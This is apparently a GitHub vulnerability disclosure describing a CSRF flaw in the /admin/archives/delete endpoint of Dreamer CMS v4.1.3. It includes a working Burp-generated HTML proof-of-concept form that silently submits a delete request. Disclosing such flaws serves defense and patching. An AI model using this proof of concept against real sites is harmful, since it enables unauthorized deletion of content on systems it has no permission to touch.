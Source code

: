 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

Dreamer CMS v4.1.3 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/archives/delete

![图片](https://github.com/Tiamat-ron/cms/assets/135576166/78d2c43a-9d40-44c0-b621-73e6c1f46318)


create poc

![图片](https://github.com/Tiamat-ron/cms/assets/135576166/c1096576-dac1-48a7-af0a-ac599c6c98de)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/archives/delete">
      <input type="hidden" name="id" value="1724689065197699072" />
      <input type="hidden" name="cid" value="46041acafe0444ac95870f165977b6a0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/Tiamat-ron/cms/assets/135576166/ba4f8ae5-cedb-488a-a256-74562d0eafad)
